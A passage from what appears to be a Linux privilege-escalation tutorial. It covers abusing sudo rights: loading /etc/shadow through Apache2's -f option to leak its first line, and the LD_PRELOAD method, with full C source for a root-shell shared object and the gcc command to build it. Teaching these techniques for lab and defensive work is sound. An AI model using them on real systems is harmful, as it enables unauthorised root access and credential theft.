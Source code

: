 ```
https://gtfobins.github.io/ is a valuable source that provides information on how any program, on which you may have sudo rights, can be used.

#### Leverage application functions
---

Some applications will not have a known exploit within this context. Such an application you may see is the Apache2 server.

In this case, we can use a "hack" to leak information leveraging a function of the application. As you can see below, Apache2 has an option that supports loading alternative configuration files (-f : specify an alternate ServerConfigFile).

![img](/assets/img/lpe22.png)


Loading the /etc/shadow file using this option will result in an error message that includes the first line of the /etc/shadow file.

#### Leverage LD_PRELOAD
---

On some systems, you may see the ```LD_PRELOAD``` environment option.
![img](/assets/img/lpe23.png)

LD_PRELOAD is a function that allows any program to use shared libraries. This [blog post](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/) will give you an idea about the capabilities of LD_PRELOAD. If the "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run. Please note the LD_PRELOAD option will be ignored if the real user ID is different from the effective user ID.

The steps of this privilege escalation vector can be summarized as follows;

1. Check for LD_PRELOAD (with the env_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

The C code will simply spawn a root shell and can be written as follows;

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;

```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

![img](/assets/img/lpe24.png)

We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo can be used.
```